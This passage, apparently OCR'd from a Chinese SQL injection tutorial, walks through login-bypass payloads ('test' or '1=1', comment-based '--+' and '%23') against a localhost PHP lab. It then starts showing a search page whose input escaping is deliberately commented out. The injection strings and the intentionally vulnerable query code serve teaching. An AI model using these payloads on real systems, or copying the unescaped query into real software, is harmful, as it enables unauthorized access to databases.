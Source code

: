 ```
	echo "login failed";
}else{
	echo "login success"
}
echo "<p>SQL Query:$sql</p>"
?>

提交
```
http://localhost/injection/user.php?username=test' or 1=1
```

就会返回错误，因为单引号闭合后，并没有注释掉后面的单引号，导致单引号没有正确配对，由此可知我们构造的语句不能让MySQL正确执行，必须重新构造SQL语句:

```
http://localhost/injection/user.php?username=test' or '1=1
```

这时显示"Login success"，说明成功了，或者提交:

```
http://localhost/injectioni/user.php?username=test'--+
http://localhost/injection/user.php?username=test'%23
```

这样就把后面的语句注释掉，这两种提交的不同之处：
提交的第一句是利用逻辑运算，第二，三句是根据mysql的特性，mysql支持/*和#两种注释格式，所以提交的时候是把后面的代码注释掉，值得注意的是由于编码问题，在IE地址栏提交#会变成空的，所以在地址栏提交的时候，应该提交%23，才会变成#，就成功注释了，这个比逻辑运算简单多了。


**语句构造**

一.搜索引擎

```
<form method="GET" action="search.php" name="search">
<input name="keywords" type="text" value="" size="15"> <input type="submit" value="Search">
</form>
<p><b>Search result</b></p>
<?php
$servername = "localhost";
$dbusername = "root";
$dbpassword = "";
$dbname = "injection";
mysql_connect($servername,$dbusername,$dbpassword) or die ("Connection failed!");
$keywords = $_GET['keywords'];
if (!empty($keywords)) {
　　//$keywords = addslashes($keywords);
　　//$keywords = str_replace("_","\_",$keywords);
　　//$keywords = str_replace("%","\%",$keywords);
　　$sql = "SELECT * FROM ".$db_prefix."article WHERE title LIKE '%$keywords%' $search ORDER BY title DESC";
　　$result = mysql_db_query($dbname,$sql);
　　$tatol=mysql_num_rows($result);
　　echo "<p>SQL Query:$sql<p>";
　　if ($tatol <=0){
　　　　echo "The \"<b>$keywords</b>\" was not found in all the record.<p>\n";
　　} else {
　　　　while ($article=mysql_fetch_array($result)) {
　　　　　　echo "<li>".htmlspecialchars($article[title])."<p>\n";
　　　　} //while
　　}
} else {
　　echo "<b>Please enter some keywords.</b><p>\n";